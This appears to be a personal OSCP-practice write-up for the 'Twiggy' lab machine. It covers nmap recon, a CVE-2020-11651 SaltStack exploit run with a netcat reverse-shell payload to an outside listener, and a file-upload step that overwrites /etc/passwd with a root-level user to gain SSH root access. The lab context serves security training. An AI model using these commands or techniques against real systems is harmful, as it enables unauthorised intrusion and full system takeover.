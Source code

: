 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Twiggy
tags: []
---
```

**Start 13:28 06-09-2024**

---
```
192.168.166.62
```
## Recon

### Nmap
As always we start of by doing recon with `nmap`.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT 192.168.166.62 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 07:29 EDT
Nmap scan report for 192.168.166.62
Host is up (0.017s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.89 seconds
```

It appears that there's a total of 4 ports open. 
I added the host under `twiggy.oscp` to my `/etc/hosts` file.

Let's check out what's running.

### 80/TCP - HTTP

I went to the website and found the following screen:

![](../../../assets/d8c04893ee9a1d955cbbe7d46e1a3d7a.png)

Here I noticed that only one link was useful, the `Log in` link which brought me to the `/admin` endpoint.

![](../../../assets/612e4e5610b5306769117df83afcde5a.png)

I tried some default creds such as `admin - admin` but got no further. Instead I checked out the `8000` port for now.


### 8000/TCP - HTTP

Heading to this page I found the following:

![](../../../assets/e4c20b5113e51de7301a88d837685736.png)

By checking out the `headers` I was able to find out that uses the `salt-api` on `X-Upstream`.

![](../../../assets/bfff1187319f0b2d871da81ef488014a.png)

I did some research on this particular version and found some interesting info:

![](../../../assets/ecc655ef55bf8e6797c60f1981ca94f4.png)

![](../../../assets/abd08fa48433fae761b1e8d5e3520aa3.png)


### Exploit - FAIL
Since we are not yet authenticated the 1st one seems more interesting to us. I then proceeded to look up ready-made exploits for this CVE and [found one](https://github.com/dozernz/cve-2020-11651):

![](../../../assets/d219c8212f0b4ab9c303d9aee59d764f.png)

I followed the instructions mentioned and got ready to exploit. 

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

Now that my listener is listening I use the exploit.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python CVE-2020-11651.py 192.168.166.62 master 'nc 192.168.45.243 4444 -e "/bin/bash"'

Attempting to ping master at 192.168.166.62
Retrieved root key: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
Got response for attempting master shell: {'jid': '20240906124113496153', 'tag': 'salt/run/20240906124113496153'}. Looks promising!
```

Unfortunately enough it threw me an error which I had to research. I found out that it was due to the fact that the packages in `salt` I was using were already deprecated, meaning I had to create a `virtual env` where I could manually select the correct packages. But beforehand I had to install `Python 3.7` with the following technique:

```bash
sudo apt update
sudo apt install build-essential libssl-dev zlib1g-dev libncurses5-dev libgdbm-dev libnss3-dev libsqlite3-dev libreadline-dev libffi-dev

wget https://www.python.org/ftp/python/3.7.13/Python-3.7.13.tgz
tar -xf Python-3.7.13.tgz
cd Python-3.7.13

./configure --enable-optimizations
make -j "$(nproc)"
sudo make altinstall
```

Once all these commands were issued I could now start up a `venv`:

```bash
python3.7 -m venv env
source env/bin/activate
```

Now that the `env` has been activated I could use `sed` to modify the `core.py` file.

```bash
kali@kali:~$ python3 -m venv env

kali@kali:~$ . ./env/bin/activate

(env) kali@kali:~$ pip install distro salt

(env) kali@kali:~$ sed -i 's/from platform import _supported_dists//' ./env/lib/python3.8/site-packages/salt/grains/core.py

(env) kali@kali:~$ sed -i 's/_supported_dists +=/_supported_dists =/' ./env/lib/python3.8/site-packages/salt/grains/core.py
```

This wouldn't work for some reason...

Off to a particular bad start.

## Retracing

Since I wouldn't get a shell I decided to check out whether I could still issue commands using the previously found `PoC`. I checked out the argument options:

![](../../../assets/e603457d2f2df8abb7172a1934ce39dd.png)

I noticed the `-r` flag meaning we can try to read a file like `/etc/passwd` for example. I decided to set it up and try it out:

```bash
python3 exploit.py --master 192.168.248.62 -r /etc/passwd
```

![](../../../assets/2680d63a7d8a344bbb1f7a9c30146fc0.png)

Indeed it worked! I also noticed there's a way to `upload` files using the exploit which I will leverage to insert a new user into the `/etc/passwd` file. I'll give the user the following creds `hacked - 1234`. I'll have to first use `openssl` to encrypt the password and then add it to the end of the file.

```bash
┌──(kali㉿kali)-[~]
└─$ openssl passwd 1234   
$1$RycphDiZ$IWncJI4gWPGrxGPuowStT0
```

I then used the following command to add the new user to the end of the file, I gave the new user the same privileges as the `root` user:

![](../../../assets/909b38c3a561f1a65b2676d0ec809bc9.png)

Now that I had modified the file I could get to uploading it:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 exploit.py --master 192.168.248.62 --upload-src passwd --upload-dest ../../../../../../etc/passwd
```

![](../../../assets/006207b8c5f498916a37d5c81be65099.png)

I notice the last line where it tells me the data has successfully been written to `/etc/passwd` meaning I can now try to `SSH` into the machine using my creds.

```
hacked
1234
```

### 22/TCP - SSH

I log in to `SSH` and instantly get `root` privileges:

![](../../../assets/d4d5768af0f8b7d22c539bfbb884f5e4.png)

I can now easily get the flag, since it is in the same directory I land in.

```bash
[root@twiggy ~]# ls -l
total 4
-rw-r--r-- 1 root root 33 Sep  9 10:33 proof.txt
[root@twiggy ~]# cat proof.txt 
558d69dcbb65ab8dee0a40be604829d6
```

---

**Finished 17:04 09-09**

[^Links]: [[OSCP Prep]] 
